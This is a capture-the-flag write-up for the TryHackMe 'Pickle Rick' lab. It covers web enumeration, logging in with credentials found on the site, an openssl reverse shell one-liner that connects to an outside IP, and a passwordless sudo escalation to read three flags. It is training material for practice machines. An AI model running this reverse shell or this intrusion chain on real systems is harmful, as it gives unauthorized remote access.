# Pickle Rick

---

Machine by [ar33zy](https://tryhackme.com/p/ar33zy)

[Tryhackme link](https://tryhackme.com/room/picklerick)

---

## Table of Content

1. [NMAP scan](https://github.com/R3TR0R0C4/CTFs/blob/main/TryHackMe/PickleRick/picklerick.md#1-nmap-scan)
2. [Website](https://github.com/R3TR0R0C4/CTFs/blob/main/TryHackMe/PickleRick/picklerick.md#2-website)
3. [gobuster & dirbuster](https://github.com/R3TR0R0C4/CTFs/blob/main/TryHackMe/PickleRick/picklerick.md#3-gobuster--dirbuster)
4. [Web login](https://github.com/R3TR0R0C4/CTFs/blob/main/TryHackMe/PickleRick/picklerick.md#4-web-login)
5. [Reverse Shell access](https://github.com/R3TR0R0C4/CTFs/blob/main/TryHackMe/PickleRick/picklerick.md#5-reverse-shell-access)
6. [First Flag](https://github.com/R3TR0R0C4/CTFs/blob/main/TryHackMe/PickleRick/picklerick.md#6-first-flag)
7. [Second Flag](https://github.com/R3TR0R0C4/CTFs/blob/main/TryHackMe/PickleRick/picklerick.md#7-second-flag)
8. [Third Flag](https://github.com/R3TR0R0C4/CTFs/blob/main/TryHackMe/PickleRick/picklerick.md#8-third-flag)

---

Tools Used:

- Kali Linux
- NMAP
- gobuster
- dirbuster
- ncat

---

### 1. Nmap Scan

We'll scan the IP to see what services are running, first, let's visit the website.



 

### 2. Website 

After visiting the website, we can't see anything that gives out any clues or ingridient.

After visiting the source code we can see the following, a username, we may be able to use a dictionary attack on ssh:



After a little test with hydra, we can see that the server doesn't allow password access (only with public keys):



 

### 3. gobuster & dirbuster

I've tried to use gobuster to list the available directories and some files on the webserver, i could find a assets folder with a bunch of pics, i ran binwalk on all of them but none resulted in any clues.
 


The `robots.txt` file has a wierd text, i'll save it for later maybe: 



After no successful clues i turned to dirbuster to look for php files, and found a `login.php`:



 

### 4. Web login

We can see a login portal, for wich i'll use the user `R1ckRul3s` and password `Wubbalubbadubdub` that we found previously:



And after logging in we can see the next command prompt, we are executing commands as `www-data` so we'll have limited access (all the other links on the navbar seem to lead to a dead end for the moment, so i'll ignore them):



 

### 5. Reverse Shell access

Then i'll attempt to use a reverse shell that exploits openSSL from [this](https://swisskyrepo.github.io/InternalAllTheThings/cheatsheets/shell-reverse-cheatsheet/#openssl) website.
   
`mkfifo /tmp/s; /bin/sh -i < /tmp/s 2>&1 | openssl s_client -quiet -connect 10.8.32.220:4242 > /tmp/s; rm /tmp/s`



As we can see we've got access to the machine:



 

### 6. First Flag

We can see that there is a .txt file, if we cat that we can see the first flag:



 

### 7. Second Flag

After entering the `/home/` folder we see a couple of user's homes, ubuntu doesn't contain any visible file, but rick does, and there we can find the second flag:



 

### 8. Third Flag

Since we have a reverse shell access, let's try `sudo -l` to see if we have permissions on something:



As we can see, we've got permissions on all commands without password.

So let's use sudo to see the contents of user root home folder, and we can see the third flag:

